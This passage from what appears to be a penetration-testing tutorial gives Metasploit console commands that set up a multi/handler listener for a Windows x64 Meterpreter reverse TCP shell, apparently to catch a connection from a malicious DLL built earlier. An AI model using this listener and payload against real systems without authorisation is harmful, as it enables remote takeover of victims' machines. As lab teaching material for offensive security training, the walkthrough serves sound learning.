 **Kali**

```shell-session
msfconsole 
```

Once Metasploit successfully loads, you need to configure the handler to receive the incoming connection from the malicious DLL.&#x20;

Run the following commands options:

* `use exploit/multi/handler`
* `set payload windows/x64/meterpreter/reverse_tcp`
* `set lhost VALUE`&#x20;
* `set lport VALUE`

Note: The value for LHOST and LPORT must be the same values you used to create the malicious DLL.&#x20;

Configure a Metasploitlistener

**Kali(msf)**

```shell-session
use exploit/multi/handler 
set payload windows/x64/meterpreter/reverse_tcp
set lhost $KALI
set lport 4444
```

Next, run it so it will be actively waiting for a connection.&#x20;

Start the listener to accept incoming connections

**Kali(msf)**

```shell-session
run -j 
```

The `-j` simply means to run it as a job.&#x20;

**Kali(msf)**

```shell-session
jobs
```

<figure><img src="../../.gitbook/assets/image (1116).png" alt=""><figcaption></figcaption></figure>
